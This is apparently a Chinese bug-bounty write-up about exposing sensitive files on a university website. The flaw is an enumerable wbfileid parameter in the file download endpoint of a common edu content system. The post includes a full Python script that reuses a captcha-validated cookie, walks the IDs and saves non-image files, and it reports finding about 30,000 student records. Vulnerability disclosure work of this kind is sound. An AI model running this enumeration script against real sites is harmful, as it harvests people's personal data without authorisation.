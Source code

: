```yaml
---
title: 非典型渗透 - 某EDU资产 外部敏感信息泄漏拿下 EduSRC 证书
published: true
---
```


# [](#header-1)0、前言

这是一次对教育资产简单的渗透，仅仅是记录一下最关键的流程，其它部分不再赘述  
由于该次渗透不是进内网拿的证书，因此有记录的必要  

# [](#header-1)1、疑似通杀

资产大扫描汇总，经过一一排查发现某处比较隐蔽的url存在可疑敏感信息泄漏点  

该url响应的是一个img文件  
```url
https://xxx.edu.cn/system/_content/download.jsp?urltype=news.DownloadAttachUrl&owner=1134009718&wbfileid=712323
```

为什么这个几乎每个edu站点都会有的通用文件储存系统，在这个edu站点下我会觉得有敏感信息泄露漏洞呢？  
因为在大批量爬虫的过程中爬到该url时返回的图片就已经包含敏感信息泄露了，有十足的把握认定该网站管理员在该文件系统中不正确地储存了敏感文件  
当然，最后结果也如我所愿  

继续观察该url不难发现，该url分为两个部分：  
参数：urltype  
和另外两个参数:owner、wbfileid  

讨论第二部分，尝试横向遍历，通过向数值减小的方向遍历wbfileid参数，发现一下规律：  
  
1、当前url响应的文件时间随数值的减小而减小  

2、jpg、png、gif等图片大多都为学生合照、活动照片，于是过滤这些资产  

3、pdf、xlsx等其他各式更为重要，并且可以通过python脚本提取文件信息，分析是否有重要内容，省去人工筛查的麻烦  

# [](#header-1)2、exp利用
第一次要求时要求验证码，第二次不再要求，很明显验证识别信息放在本地，不难发现验证信息存于cookie中，正好省去python自动校验验证码带来的时间损耗  

因此，写了个python exp自动遍历，自动保存文件在同级路径下人工审查(别问为什么不用burpsuite，因为要进行过滤操作)  

```python

import xlrd
#利用这个库分析表格文件，可以匹配身份证、密码等敏感信息
import requests
import os
import time

get_header = {
	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    	"Cookie": [验证码校验过的Cookie String类型]
}

prev = [开始遍历的wbfileid参数 int类型]
last = [结束遍历的wbfileid参数 int类型]

URL = "https://[填写可疑系统域名]/system/_content/download.jsp?urltype=news.DownloadAttachUrl&owner=1134009718&wbfileid="

def save(filename, content, nums):
    filename2 = f'''{nums}----''' + filename
    with open(filename2,'wb') as file:
        file.write(content)

for i in range(prev, last):
    try:
        print(i)
        url = URL + str(i)
        response = None
        while True:
            try:
                response = requests.get(url = url,headers = get_header, timeout = 20)
                break
            except:
                print('error:timeout retrying')
                pass
        filename = response.headers['Content-disposition'].split('filename=')[1].split(';')[0]
        back = filename.split('.')[-1]

        print(back)
	#自动保存除jpg和png格式以外的文件
	if not filename.endswith('jpg') and not filename.endswith('JPG') and not filename.endswith('png') and not filename.endswith('PNG'):
            save(filename, response.content, i)

        time.sleep(0.1)
    except:
        print('error')
```

最后，在遍历了几个小时后，终于遍历到了一个压缩包内包含dbf文件，excel打不开，推测是数据量过大导致的  

于是用专业dbf查看器打开，果然包含近三万条学生数据，喜提中危  

![avatar](/image/2023-06-14-0.png)

本文只介绍关键内容，绕waf等操作不再赘述  
本篇文章由leeya_bug(leeyange)自创，文章属亲身经历，禁止抄袭payload  
